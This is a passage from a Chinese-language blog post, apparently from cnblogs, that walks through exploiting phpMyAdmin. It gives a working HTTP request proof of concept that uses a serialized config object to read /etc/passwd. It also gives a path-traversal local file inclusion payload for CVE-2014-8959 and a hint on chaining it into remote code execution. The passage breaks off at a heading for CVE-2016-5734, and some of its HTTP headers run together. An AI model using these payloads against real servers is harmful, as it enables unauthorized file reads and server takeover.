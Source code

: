 [回到顶部](https://www.cnblogs.com/liliyuanshangcao/p/13815242.html#_labelTop)

# 3PhpMyAdmin漏洞利用



## 3.1 WooYun-2016-199433：任意文件读取漏洞

影响范围：

```markdown
phpMyAdmin version
	2.x版本
```

POC如下：

```makefile
POST /scripts/setup.php HTTP/1.1 
Host: your-ip:8080
Accept-Encoding: gzip, deflate Accept: */*
Accept-Language: enUser-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trid ent/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded 
Content-Length: 80


action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}
```



## 3.2 CVE-2014 -8959：本地文件包含

影响范围：

```markdown
phpMyAdmin version
	4.0.1~4.2.12
PHP version
	< 5.3.4
```

POC如下：

```bash
/gis_data_editor.php?token=2941949d3768c57b4342d94ace606e91&gis_data[gis_type]=/../../../../phpinfo.txt%00    
# 注意改下token值
```

在实际利用中可以利用写入文件到/tmp目录下结合此漏洞完成RCE，php版本可以通过http header、导出表内容到文件的附加内容看到。



## 3.3 CVE-2016-5734 ：后台命令执行RCE
